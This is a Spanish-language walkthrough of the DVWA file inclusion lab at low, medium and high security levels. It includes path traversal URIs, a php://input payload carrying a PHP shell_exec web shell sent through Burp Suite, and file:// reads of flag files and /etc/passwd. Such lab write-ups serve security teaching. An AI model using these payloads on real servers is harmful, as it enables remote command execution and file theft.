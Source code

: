 # LFI

## Bajo

Sabiendo que el archivo `fi.php` existe, podemos intentar leerlo con la siguiente URI:
```
http://localhost/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```

![Path Traversal](/FI/assets/primerPaso.png)
Como se puede observar en la imágen, el archivo `fi.php` es leído y mostrado en la página aunque no hemos conseguido leer las 5 citas que contiene.

Para intetar leer el archivo completo, podemos intentar ejecutar commandos en el servidor, para ello nos ayudaremos de Burp Suite, que nos permitirá modificar la petición que se envía al servidor.

Como primera prueba realizamos una petición GET a la URI para obtener información sobre el servidor:

> **Nota:** Burp Suite debe tener la opcion `Intercept is on` activada para poder modificar las peticiones.

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=id
```

una vez interceptada la petición, podemos modificarla para que se envíe un comando al servidor, para ello añadimmos el siguiente comando al final de la petición y a continuación pulsamos `Forward`:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![intercept](/FI/assets/intercept.png)

como podemos observar en la imágen, el servidor nos devuelve la información del usuario que está ejecutando el servidor web.

![forward](/FI/assets/forward.png)

Una vez comprobado podemos ejecutar comandos en el servidor, podemos intentar leer el archivo `fi.php` de la misma manera:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=cat%20/var/www/html/DVWA/hackable/flags/fi.php
```

![challenge](/FI/assets/challenge.png)

## Medio

Realizamos la misma prueba que en el nivel bajo con la URI que conseguia mostrar el contenido del archivo `fi.php`:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=cat%20/var/www/html/DVWA/hackable/flags/fi.php
```    

Al igual que antes, añadimos la siguiente linea código al final de la petición, de tal manera que ejecute el comando `cat` para leer el archivo `fi.php` y lo muestre en la página.

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![lfi-m](/FI/assets/lfi-m.png)

Una vez modificada la petición, pulsamos `Forward` para enviarla al servidor y obtener el contenido del archivo `fi.php`.

![challenge-2](/FI/assets/challenge-2.png)

## Alto

Al contrario que en los niveles anteriores, en este nivel no podemos modificar la petición que se envía al servidor para obtener ejecución remota de comandos, por lo que tendremos que encontrar otra forma de leer el archivo `fi.php`.

Para comprobar que no podemos modificar la petición, se han realizado distintas pruebas sobre la URI para intentar bypassar el filtro de entrada de datos, pero ninguna de ellas ha funcionado.

```
...?page=php://input&cmd=id
...?page=filephp://input&cmd=id
...?page=file php://input&cmd=id
...?page=file:///etc/passwd&php://input&cmd=id
```

Lo máximo que se ha posido obtener ha sido gracias al wrapper `file://`.

```
http://localhost/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/hackable/flags/fi.php
```

![challenge-3](/FI/assets/challenge-3.png)
